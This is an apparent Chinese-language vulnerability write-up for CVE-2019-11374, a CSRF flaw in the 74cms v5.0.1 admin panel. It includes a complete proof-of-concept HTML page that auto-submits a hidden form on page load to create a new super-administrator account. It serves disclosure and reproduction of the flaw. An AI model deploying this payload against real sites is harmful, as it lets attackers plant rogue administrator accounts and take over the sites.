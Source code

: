 # （CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞

## 一、漏洞简介
在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

## 二、漏洞影响
74CMS v5.0.1


## 三、复现过程
首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包

1.png

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

2.png

```html
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```


## 参考链接
https://www.023niu.com/show-62-32-1.html
